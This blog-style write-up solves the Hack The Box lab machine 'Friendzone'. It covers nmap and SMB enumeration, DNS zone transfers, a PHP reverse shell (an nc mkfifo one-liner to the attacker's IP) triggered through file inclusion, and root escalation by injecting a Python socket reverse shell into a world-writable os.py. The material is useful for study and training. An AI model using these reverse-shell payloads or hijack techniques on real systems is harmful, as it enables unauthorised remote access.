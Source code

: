 ```yaml
---
layout: post
title: "Friendzone"
categories: HTB
---
```


#### Nmap Scan

```
# Nmap 7.80 scan initiated Sun Jul 19 11:18:38 2020 as: nmap -sV -sC -p- -oA allports_nmap_scan 10.10.10.123
Nmap scan report for 10.10.10.123
Host is up (0.018s latency).
Not shown: 65528 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


Host script results:
|_clock-skew: mean: -1h00m08s, deviation: 1h43m54s, median: -9s
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2020-07-19T04:18:59+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-19T01:18:59
|_  start_date: N/A


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 19 11:19:16 2020 -- 1 IP address (1 host up) scanned in 37.89 seconds
```
<hr>

#### Initial Access
#### Web
Visiting http://10.10.10.123 shows the following page.
take note of the email domain `"friendzoneportal.red"`
Neither Gobuster or Nikto give any use full information<br>

![](\images\htb\friendzone\1.png)<br><br>

#### SMB
```
smbmap -H 10.10.10.123
[+] Guest session       IP: 10.10.10.123:445    Name: friendzone.red                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        Files                                                   NO ACCESS       FriendZone Samba Server Files /etc/Files
        general                                                 READ ONLY       FriendZone Samba Server Files
        Development                                             READ, WRITE     FriendZone Samba Server Files
        IPC$                                                    NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))
```

Have read/write access to "Development" share. Taking note of the comment in the "Files" share "/etc/Files"

Running nmap to confirm location of the "Development" share on the machine
`nmap --script smb-enum-shares -p139 10.10.10.123`<br>
![](\images\htb\friendzone\2.png)<br><br>

Connecting to the "general" share find file  "cred.txt" file which has a credentials "for the admin thing" inside<br>
![](\images\htb\friendzone\3.png)<br><br>
![](\images\htb\friendzone\4.png)<br><br>

Credentials
`admin:WORKWORKHhallelujah@#`


#### DNS

port 53 is open both domains are vulnerable to zone transfers
```
dig axfr friendzone.red @10.10.10.123

dig axfr friendzoneportal.red @10.10.10.123
```
<br>![](\images\htb\friendzone\5.png)<br><br>

Add these to /etc/host file in kali<br>
![](\images\htb\friendzone\6.png)<br><br>

Visiting https://administrator1.friendzone.red shows the following page, this is were the credentials from credz.txt are used<br>

![](\images\htb\friendzone\7.png)<br><br>


After logging in we can see that is complaining about a parameter missing<br>

![](\images\htb\friendzone\8.png)<br><br>

#### Revereshell

Create PHP reverse shell
`<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 8888 >/tmp/f');
?>`

Upload shell to the development share<br>
![](\images\htb\friendzone\9.png)<br><br>

Start nc listener on port 8888
`nc -lvnp 8888`

Visit the following to get a reverse shell
https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=/etc/Development/shell

<br>![](\images\htb\friendzone\10.png)<br><br>

<hr>

### User

In /var/www there is a mysql config file which contains credentials for the user friend
`friend:Agpyu12!0.213$`

<br>![](\images\htb\friendzone\11.png)<br><br>

#### SSH
Login to box with above credentials

`ssh friend@10.10.10.123`

<br>![](\images\htb\friendzone\12.png)<br><br>

User.txt
`a9ed20ac****************15ae9a11`

<hr>

### Root

Root

Run pspy64 to see running services<br>
![](\images\htb\friendzone\13.png)<br><br>

After abit a new process is spawned running a python script<br>
![](\images\htb\friendzone\14.png)<br><br>

Unfortunately "/opt/server_admin/reporter.py" is owned by root so we can't hijack the script, but the script is making use of the python OS module<br>
![](\images\htb\friendzone\15.png)<br><br>

Script is using python 2 (tell by the #!/usr/bin/python at the top)

#### Locating OS.py
`locate os.py`
<br>![](\images\htb\friendzone\16.png)<br><br>

os.py is world writable <br>
![](\images\htb\friendzone\17.png)<br><br>

Injecting reverse shell to the bottom of os.py
```
import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.16",8899))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```
<br>![](\images\htb\friendzone\18.png)<br><br>

After a minute get a root shell<br>
![](\images\htb\friendzone\19.png)<br><br>

root.txt
`b0e6c60b****************6a9e90c7`

